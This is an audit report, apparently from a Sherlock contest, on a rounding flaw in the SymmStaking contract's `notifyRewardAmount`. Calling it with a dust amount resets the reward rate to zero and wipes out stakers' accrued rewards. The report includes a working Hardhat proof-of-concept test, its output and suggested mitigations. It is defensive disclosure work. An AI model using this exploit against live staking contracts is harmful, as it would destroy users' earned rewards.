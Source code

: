 Damp Khaki Bee

High

# [H-1] Attacker can break rewards distribution and calculation by calling `notifyRewardAmount` with dust amount

### Summary

In the `SymmStaking` contract, any call to the [notifyRewardAmount](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275) function resets the reward accrual state for a given reward token. This reset overwrites previously accrued rewards and recalculates the reward rate over a fresh period. An attacker can exploit this logic by calling the function with a tiny reward amount, effectively breaking the rewards distribution mechanism.

The vulnerability is in the internal function [_addRewardsForToken](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L374), which is invoked by `notifyRewardAmount` function.

```javascript
function _addRewardsForToken(address token, uint256 amount) internal {
	TokenRewardState storage state = rewardState[token];

	if (block.timestamp >= state.periodFinish) {
		state.rate = amount / state.duration;
	} else {
		uint256 remaining = state.periodFinish - block.timestamp;
		uint256 leftover = remaining * state.rate;
//@audit if new rewards are added during the current period, but the `amount+leftover < duration`, the rate will round to 0.
		state.rate = (amount + leftover) / state.duration;
	}

	state.lastUpdated = block.timestamp;
	state.periodFinish = block.timestamp + state.duration;
}
```

Let's look at a numerical example.
Initial state

```javascript
state.rate = 604800 / 604800; // = 1 token per second.
state.lastUpdated = block.timestamp;
state.periodFinish = block.timestamp + 604800; // 1 week later.
```

At this point, if a user calls `claimRewards` after 1 day (86,400 one day in seconds) they will get 86,400 tokens in return.
Imagine that after 1 day, another user calls the `notifyRewardAmount` function and adds 30.000 tokens as additional rewards.
The new rate will be computed like this

```javascript
uint256 remaining = state.periodFinish - block.timestamp; // remaining = 518400 (1 week - 1 day in seconds)
uint256 leftover = remaining * state.rate; // leftover = 518400 * 1 = 518400
state.rate = (amount + leftover) / state.duration; // new rate is zero due to integer division
//30.000 (amount to be added as rewards) + 518400 (leftover rewards) / 604800 (initial duration)
//@audit new rate will be 0.906 which will be rounded down to zero
```


### Root Cause

The main issue lies in the internal function `_addRewardsForToken`, which is invoked by `notifyRewardAmount`.
If an attacker or any honest user attempts to add extra rewards, but the amount of tokens that they add plus the leftover rewards does not exceed DEFAULT_REWARDS_DURATION which is 604800, then the `TokenRewardState::rate` will be rounded to zero.

This is wrong because `DEFAULT_REWARDS_DURATION` is meant to represent a duration expressed in seconds and not an actual number of tokens. If the reward token is for example `USDC` or `WETH`, after two days (172800 seconds), a user must add `172801` `USDC` or `WETH` as rewards in order for the `rate` calculation to not be rounded down to zero. In a real-world example, this is not feasible due to the actual monetary value of tokens.

```javascript
	function _addRewardsForToken(address token, uint256 amount) internal {
//..
//.. @audit `state.rate` gets rounded to zero if amount + leftover does not exceed `state.duration`
			state.rate = (amount + leftover) / state.duration;
		}
//..
	}
```

### Internal Pre-conditions

None, this will happen under normal usage of the protocol, even if honest users try to add rewards.

### External Pre-conditions

None

### Attack Path

After the initial setup, some user calls the `notifyRewardAmount` in an attempt to add more rewards to the contract.

### Impact

- Loss of funds for users
A malicious actor can exploit this flaw by calling `notifyRewardAmount` with a negligible amount (e.g., 1 wei). This resets the reward accrual state and reduces the reward rate to 0, causing honest stakers to lose the rewards they have accumulated.

### PoC

Put this test into the `symmStaking.behavior.ts` file

```javascript
it.only("should break rewards", async function () {
	// Scenario: Single depositor — user1 deposits 604,800 SYMM, waits 1 day, claims 86400 tokens.

	const depositAmount = "604800"
	const rewardAmount = depositAmount
	await stakingToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
	await symmStaking.connect(admin).configureRewardToken(await stakingToken.getAddress(), true)
	await symmStaking.connect(admin).notifyRewardAmount([await stakingToken.getAddress()], [rewardAmount])

	//User 1 deposits and claims rewards for a full day
	await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
	await symmStaking.connect(user1).deposit(depositAmount, user1.address)

	await time.increase(86400)

	const user1BalanceBefore = await stakingToken.balanceOf(user1.address)
	await symmStaking.connect(user1).claimRewards()
	const user1BalanceAfter = await stakingToken.balanceOf(user1.address)
	const claimed = user1BalanceAfter - user1BalanceBefore
	console.log("Claimed amount is:", claimed.toString())

	expect(claimed).to.equal("86400")

	//User 2 breaks rewards calculation by depositing some extra rewards
	const tinyAmount = "10000"
	await stakingToken.connect(user2).approve(await symmStaking.getAddress(), tinyAmount)
	await symmStaking.connect(user2).notifyRewardAmount([await stakingToken.getAddress()], [tinyAmount])

	//fast forward time 1 week
	await time.increase(604800)

	//prove that rewards calculations are broken
	const user1BalanceBefore2ndClaim = await stakingToken.balanceOf(user1.address)
	await symmStaking.connect(user1).claimRewards()
	const user1BalanceAfter2ndClaim = await stakingToken.balanceOf(user1.address)
	const claimed2nd = user1BalanceAfter2ndClaim - user1BalanceBefore2ndClaim
	console.log("Claimed amount User1 is:", claimed2nd.toString())

	const user2BalanceBeforeClaim = await stakingToken.balanceOf(user2.address)
	await symmStaking.connect(user2).claimRewards()
	const user2BalanceAfterClaim = await stakingToken.balanceOf(user2.address)
	const claimedUser2 = user2BalanceAfterClaim - user2BalanceBeforeClaim
	console.log("Claimed amount User2 is:", claimedUser2.toString())
})
```

Test output

```javascript
SymmVesting Contract deployed at: 0x15BB2cc3Ea43ab2658F7AaecEb78A9d3769BE3cb
deploy:SymmStaking
SymmStaking Contract deployed at: 0xAE246E208ea35B3F23dE72b697D47044FC594D5F
Claimed amount is: 86400
Claimed amount User1 is: 1
Claimed amount User2 is: 0
          ✔ should break rewards
```

The test clearly shows that after calling the `notifyRewardAmount` function and adding extra rewards, User1 got only 1 token after a full week, and User2 got 0.

### Mitigation

Depending on the desired design of the protocol, some options are:

- Add access controls and only allow a trusted admin to add new rewards.
- Enforce a minimum reward amount requirement. Reject transactions where the amount would make the rate round down to zero.
- Change the logic in a way that preserves previously accrued rewards when new rewards are added. For instance, conditionally update `state.lastUpdated` and `state.periodFinish` only if the amount exceeds a minimum threshold, but this will probably introduce the need to change the code in some other parts and may not be desired.